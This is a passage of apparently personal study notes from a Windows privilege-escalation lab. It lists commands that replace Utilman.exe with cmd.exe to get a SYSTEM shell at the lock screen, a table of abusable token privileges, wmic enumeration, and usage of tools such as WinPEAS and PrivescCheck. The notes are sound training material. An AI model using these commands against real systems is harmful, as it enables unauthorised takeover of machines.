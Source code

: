 1. `takeown /f C:\Windows\System32\Utilman.exe`
2. `icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F`
3. `copy cmd.exe utilman.exe`
4. Lock the screen and click the "Ease of Access" button to trigger `utilman`.

### Others / Summary
| Privilege | Description | Abuse |
|-|-|-|
| `SeImpersonatePrivilege` | Allows a process to impersonate another user. | Exploited in token impersonation attacks (e.g., `JuicyPotato`, `RoguePotato`) to escalate to SYSTEM. |
| `SeAssignPrimaryTokenPrivilege` | Allows a process to assign a token to a process. | Combined with SeImpersonatePrivilege for privilege escalation. |
| `SeCreateTokenPrivilege` | Allows a user to create new tokens. | Exploited to create a new SYSTEM token and elevate privileges. |
| `SeTakeOwnershipPrivilege` | Allows a user to take ownership of any object. | Can be used to take control of files or processes owned by SYSTEM. |
| `SeDebugPrivilege` | Allows debugging of any process, including SYSTEM processes. | Exploited to inject code into SYSTEM processes or access sensitive data in memory. |
| `SeLoadDriverPrivilege` | Allows loading of device drivers. | Exploited to load malicious drivers, which run in kernel mode (ring-0). |
| `SeRestorePrivilege` | Allows restoring files or directories regardless of permissions. | Used to overwrite critical files, bypassing NTFS permissions. |
| `SeShutdownPrivilege` | Allows shutting down the system. | Used for denial-of-service attacks. |

## Abusing vulnerable software
Software installed on the target system can present various privilege escalation opportunities.
As with drivers, organisations and users may not update them as often as they update the operating system.
You can use the `wmic` tool to list software installed on the target system and its versions.

This command will dump information it can gather on installed software: `wmic product get name,version,vendor`.

Remember that the wmic product command may not return all installed programs. Depending on how some of the programs were installed, they might not get listed here.
It is always worth checking desktop shortcuts, available services or generally any trace that indicates the existence of additional software that might be vulnerable.

Once we have gathered product version information, we can always search for existing exploits on the installed software online on sites like `exploit-db`, `packet storm` or plain old `Google`, amongst many others.

## Tools of the trade
Various tools can help you conduct system enumeration to find privilege escalation vectors. Below are some commonly used tools along with their descriptions and usage.

| **Tool** | **Description** | **Usage** |
|-|-|-|
| **WinPEAS** | A script that enumerates the target system to find privilege escalation paths. | - Download the precompiled executable or `.bat` script. <br> - Run: `winpeas.exe > outputfile.txt` <br> - Output may be long, so redirect to a file for easier review. |
| **PrivescCheck** | A PowerShell script to search for common privilege escalation vectors. | - Run: `Set-ExecutionPolicy Bypass -Scope process -Force` <br> - Execute: `. .\PrivescCheck.ps1` <br> - Then, run: `Invoke-PrivescCheck` |
| **WES-NG (Windows Exploit Suggester - Next Generation)** | A Python script that identifies missing patches and vulnerabilities on the target system. | - Update the database: `wes.py --update` <br> - Run `systeminfo` on the target machine and save output to `systeminfo.txt` <br> - Run: `wes.py systeminfo.txt` on the attacking machine. |
| **Metasploit (multi/recon/local_exploit_suggester)** | A Metasploit module that suggests local exploits based on the target system's vulnerabilities. | - Use the `multi/recon/local_exploit_suggester` module if you have a Meterpreter shell on the target system to identify privilege escalation vectors. |

> **Note:** Automated tools may not catch all potential escalation vectors, so manual enumeration is still recommended.
